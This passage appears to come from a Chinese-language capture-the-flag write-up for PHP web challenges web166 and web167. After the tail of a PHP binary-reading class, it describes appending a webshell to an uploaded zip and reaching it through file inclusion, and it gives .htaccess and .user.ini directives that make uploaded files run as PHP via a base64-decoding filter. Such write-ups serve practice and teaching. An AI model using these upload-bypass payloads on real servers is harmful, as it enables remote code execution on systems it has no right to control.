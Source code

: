 ```php
            if(strlen($this->binData) < 2) {
                die('End Of File');
            }
            $short = substr($this->binData, 0, 2);
            $this->binData = substr($this->binData, 2);
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }
 
        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>
```

## web166 zip 下载->文件包含

这里我们需要传递一个zip 然后我们在后面写马



<img src="https://i-blog.csdnimg.cn/blog_migrate/cfe831ffc206a2878efaf53c6de8598e.png" alt="" style="max-height:545px; box-sizing:content-box;" />


然后去下载的界面 然后抓包



<img src="https://i-blog.csdnimg.cn/blog_migrate/6322ce242c81d3b3942698834c39233e.png" alt="" style="max-height:512px; box-sizing:content-box;" />


发现已经解析了

然后通过这个方法getshell即可

## web167  .htacess

```cobol
AddType application/x-httpd-php .abc
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.abc"
```

user.ini是

```cobol
auto_append_file = "php://filter/convert.base64-decode/resource=shell.png"
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/969551483c16f475fb281737cb3bc32e.png" alt="" style="max-height:453px; box-sizing:content-box;" />
